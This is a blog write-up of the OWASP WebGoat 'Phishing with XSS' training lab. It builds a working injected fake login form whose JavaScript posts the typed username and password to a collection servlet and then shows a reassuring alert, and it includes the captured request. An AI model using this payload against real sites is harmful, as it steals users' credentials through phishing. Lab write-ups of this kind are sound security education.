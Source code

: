 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 8"
date:   2017-01-26 00:00:00 -0500
categories: webgoat
---
```

# Cross Site Scripting: Phishing with XSS
Instructions:

Below is an example of a standard search feature.
Using XSS and HTML insertion, your goal is to:
- Insert html to that requests credentials
- Add javascript to actually collect the credentials
- Post the credentials to http://localhost/webgoat/catcher?PROPERTY=yes...
- To pass this lesson, the credentials must be posted to the catcher servlet.

Nice, some more XSS. I'm actually really enjoying the XSS challenges. They seem to require a bit more craftiness than some of the other challenges, and this one looks like no exception. Credential grabbing and javascript that passes the creds? Cool!

First off, let's try a test search and see what our attack vector looks like:

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-search.jpg">

Alright. So I don't see any clientside code that puts our search result on the page. I verified that by watching the request to the server and seeing it respond with the full HTML for the results page. So we're going to have to do some blackbox testing to see what we can get by any server side XSS filtering.

*Note*: I also found the full URL format for the credential catcher servlet in the server response:
```
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
```

So, if we look at the instructions, there are three separate steps in this injection:

- insertion of a fake login form
- insertion of a javascript function that will steal the creds from our inserted login form
- mechanism to send stolen creds to the servlet

Let's start with a little bit of test code. We only have one insertion point, so we have to put everything in at once. Let's try to pass a script and a login prompt to our user:

```
<script>
function testFunction() {
	return "test"
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="password" value="pass" type="TEXT"><br>{
<button type="button" onclick='javascript:alert(testFunction()")'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-pop.jpg">

Nice! We can call arbitrary javascript code we write on button press. Now let's try to harness that to grab some user data. To complete this I had to do some research about how Document Object Models and Javascript interact. On load, a browser creates a DOM of the page that is structured something like this (Credit to [W3 Schools][dom-js]):

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/dom-model.gif">

Notice how everything on the page is an element. Well we can use a javascript builtin function called ```getElementById( id )``` on the ```document``` to access any element on the page (that we specify by its unique id). We can achieve this by creating variables in our injected script to access injected elements in our document. Let's try to set the ```id``` field of our username and password inputs to a value we like, and access them with our injected javascript:

```
<script>
function userCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	return username + ":" + password
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(`user:pass= ` + userCreds())'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-pop.jpg">

Alright! So we successfully accessed the user data that we want. Now we need to send it to the servlet behind the scenes. Let's break out a friend we've seen before, ```XMLHttpRequest```, and steal some creds!

```
<script>
function stealCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	var credURL = "http://192.168.56.101/WebGoat/catcher?PROPERTY=yes&user="+username+"&password="+password;

	var xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("POST",credURL, false);
	xmlHTTP.send(null);

	return "You were successfully logged in!";
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(stealCreds())''>Login</button>
```

Now we have a much more nefarious implementation of our script. First, it parses the data from the login fields and properly formats it into our waiting servlet url. Then we create a new ```XMLHttpRequest```, which we use to ```POST``` our stolen credentials to our servlet URL. Finally, we return the 'all clear' alert to our user so that no one is the wiser (and no one changes their password!). Let's see it in action:

```
POST /WebGoat/catcher?PROPERTY=yes&user=regularguy&password=password123 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=54&menu=900
Cookie: JSESSIONID=27BE2D33035F93B37F3998509C6AD48C; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Content-Length: 0
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-logged.jpg">

XSS'd! That was more challenging that a lot of the other problems so far, but also a lot of fun!

### References

1 [DOM Javascript][dom-js]

2 [DOM Value Accession][dom-accession]

3 [Javascript HTTP Requests][js-requests]

[dom-js]:http://www.w3schools.com/js/js_htmldom.asp
[dom-accession]:http://www.w3schools.com/js/js_htmldom_methods.asp
[js-requests]:http://stackoverflow.com/questions/247483/http-get-request-in-javascript